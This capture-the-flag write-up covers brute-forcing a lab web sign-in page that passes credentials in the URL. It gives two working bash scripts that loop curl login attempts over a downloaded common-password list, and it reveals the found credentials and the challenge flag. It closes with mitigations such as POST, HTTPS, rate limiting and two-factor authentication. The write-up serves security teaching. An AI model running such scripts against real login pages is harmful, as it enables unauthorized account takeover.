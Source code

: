 # <span style="text-decoration: underline"> Brutforce </span>

##### Tags : `brutforce` , `curl`, `guess`
##### Server ip : `192.168.1.17 `
____

# <span style="text-decoration: underline">problem</span>

Once common way of breaking into website is uisng brutforce. When we go to **signin** page and enter
|username|password|
|--|--|
|AAA|BBB|

and try to signin using those credentials, we are redirected to the folloing `URL` : **`http://192.168.1.17/?page=signin&username=AAA&password=BBB&Login=Login#`**

In the `URL` we can see the following parameters

|key|value|
|--|--|
|page|signin|
|username|AAA|
|password|BBB|
|Login|Login|

We can clearly see in the `URL` what we used as our `username` and `password`. This is clearly an old way of doing things because it expose the user credentials in plain text and on the `URL`



# <span style="text-decoration: underline">Solution</span>

To try a brutforce agains this `URL` all we need to do is change the value of `username` and `password`. It would take an infinit amount of timet ot try all the characters as **username** and **password** so a better way to do this would be using [`dictionary`](https://nordpass.com/blog/what-is-a-dictionary-attack/) based attack.

> A dictionary attack is a systematic method of guessing a password by trying many common words and their simple variations. Attackers use extensive lists of the most commonly used passwords, popular pet names, fictional characters, or literally just words from a dictionary – hence the name of the attack. They also change some letters to numbers or special characters, like “p@ssw0rd”.

It would still take way too long to guess both **username** and **password** so let's narrow down a bit our `username` wordlist. According to [this](https://lifehacker.com/the-top-10-usernames-and-passwords-hackers-try-to-get-i-1762638243) website the followings are the most commong `usernames`.

|username|count|percent|
|--|--|--|
| administrator| 77125 | 4.87%|
| Administrator| 53427| 24.15%|
| user1| 8575 | 3.88%|
| admin| 4935| 2.23%|
| alex| 4051| 1.83%|
| pos| 2321| 1.05%|
| demo| 1920| 0.87%|
| db2admin| 1654| 0.75%|
| Admin| 1378| 0.62%|
| sql| 1354| 0.61%|

We could also narrow down the **password** list like our **username** list (all though in realworld we should probably try a bigger list). Here is a list of website that propose a short list of commonly used password.

- https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords
- https://github.com/DavidWittman/wpxmlrpcbrute/blob/master/wordlists/1000-most-common-passwords.txt
- https://cybernews.com/best-password-managers/most-common-passwords/
- https://nordpass.com/most-common-passwords-list/
- https://github.com/iryndin/10K-Most-Popular-Passwords/blob/master/passwords.txt
- https://techcult.com/most-common-passwords/

I have noticed that [this](git) repository contains a short list (1k) passwords that we can find in the [wikipedia](https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords) page and this could be a good start.

All we have to do now is 

- Download the list of password
- Write some code to do the query using all the passwords
- And wait for the program to find the password

Here is a simple `shell` script to do the brutforce

?> We will use `admin` as username first because it is one of the most used username for admin account.


```bash
#!/bin/bash

username="admin" # The username we
host="192.168.1.17" # The ip address of the machine
dictionary="passwords.txt" # Path to the dictionary (password list)
i=1 # A simple iterator to know howmany password have we tried

while IFS= read -r password;
do
	echo -n "trying [$i]: $password"
	curl -s "http://$host/?page=signin&username=$username&password=$password&Login=Login#" | grep flag > /dev/null # You can also get the password directly in the terminal by removing the "> /dev/null"
	if [ $? -eq 0 ]
	then
		printf "\n\n"
		echo "Found the password : $password"
		exit
	fi
	((i=i+1))
	printf "\33[2K\r"
done < $dictionary
```

If you do not desire to download anything then you can use the following script

```bash
export HOST='192.168.1.17';
export USERNAME='admin';
export DICTIONARY=($(curl -s "https://raw.githubusercontent.com/DavidWittman/wpxmlrpcbrute/master/wordlists/1000-most-common-passwords.txt"));

for i in ${!DICTIONARY[@]};
do
	echo -n  "trying [$i]: ${DICTIONARY[$i]}"
	curl -s "http://$HOST/?page=signin&username=$USERNAME&password=${DICTIONARY[$i]}&Login=Login#" | grep flag > /dev/null # You can also get the password directly in the terminal by removing the "> /dev/null"
	if [ $? -eq 0 ]
	then
		printf "\n\n"
		echo "Found the password : ${DICTIONARY[$i]}"
		exit
	fi
	printf "\33[2K\r"
done
```

!> If you try the script, do not forget to put the **right** `host` / `ip` address for `you`!

After executing our script, the script tells us that the password is `shadow`. so :

|username|password|
|--|--|
|admin|shadow|

# How to avoid the problem
This was once a common problem before where website exposed the user credentials directoly on the `URL` which itself is not encrypted. In moderndays we start

- Not sending credentials or importent information over [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) method and start using [`POST`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST).
- We use [`ssl`](https://developer.mozilla.org/en-US/docs/Glossary/SSL) encryption and [`https`](https://developer.mozilla.org/en-US/docs/Glossary/https) to send our data over internet so even if someone get hold of our data they will have hard time decrypting it.
- Set up a maximum request length so that if a someone tries to send to many requests, they get blocked.
- 2 factor authentication so that even if you have the correct credential you will still need a mobile device or a third element to log in.
- A server could also guess if the user begind the screen is the right user depending on the user IP, location, behaviour and many other things to protect better the user account.


# Flag

```text
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```